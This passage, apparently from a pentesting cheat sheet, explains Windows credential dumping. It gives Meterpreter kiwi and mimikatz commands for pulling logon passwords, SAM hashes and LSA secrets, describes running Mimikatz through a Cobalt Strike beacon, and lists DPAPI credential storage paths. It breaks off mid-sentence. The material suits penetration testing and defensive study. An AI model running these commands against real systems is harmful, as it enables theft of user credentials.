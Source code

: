 On `x64` host, make sure that the `meterpreter` session is running as a 64 bits
process (using `sysinfo`), otherwise the `meterpreter` will attempt to load a
32 bits version of `Mimikatz` into memory, which will cause most features to be
non-functional.

```
meterpreter> load kiwi
meterpreter> creds_all
meterpreter> lsa_dump_sam
meterpreter> lsa_dump_secrets
meterpreter> creds_kerberos / creds_msv / creds_ssp / creds_tspkg / creds_wdigest    

# Older version
meterpreter> load mimikatz

meterpreter> mimikatz_command -f samdump::hashes
meterpreter> mimikatz_command -f sekurlsa::logonpasswords
meterpreter> kerberos / livessp / msv / ssp / tspkg / wdigest  
```

###### Cobalt Strike

The `Cobalt Strike` `beacon` built-in function `[beacon] -> Access ->
Run Mimikatz` will execute `mimikatz` `sekurlsa::logonpasswords` through a
`beacon`.

The function output will be automatically parsed and the harvested credentials
added to the `Cobalt Strike` credentials database: `View -> Credentials`.

#### DPAPI - Generic and third parties credentials

Windows exposes cryptographic functions through the `Data Protection
Application Programming Interface (DPAPI)` API to allow third parties programs
to locally store encrypted secrets. `DPAPI` notably provides the
`CryptProtectData` and `CryptUnprotectData` functions to, respectively, encrypt
and decrypt data. Leveraging the `DPAPI`, softwares can thus rely on the
operating system to manage the cryptographic keys and to implement the
cryptographic algorithms. Among others, the `Google Chrome` and
`Internet Explorer` / `Edge` web browsers as well as the Windows
`Remote Desktop Protocol (RDP)` utility and the `Wireless Local Area Network
(WLANSVC)` service save credentials using the `DPAPI`.

Secrets originating from Microsoft products are generally stored by the
`Credential Manager` in:

  - `Credentials` files, located in
    `%SYSTEMDRIVE%\Users\<USERNAME>\AppData\Roaming\Microsoft\Credentials\
    <GUID>`.

  - `Windows Vaults`, such as the `Windows Credentials` vault (independent
    from `Credentials` files). `Vaults` are stored as a combination of `vpol`
    and `vsch` files in `%SYSTEMDRIVE%\Users\<USERNAME>\AppData\Local\Microsoft
    \Vault\<GUID>`.

`Google Chrome` saves by default credentials and secrets, such as cookies, in:
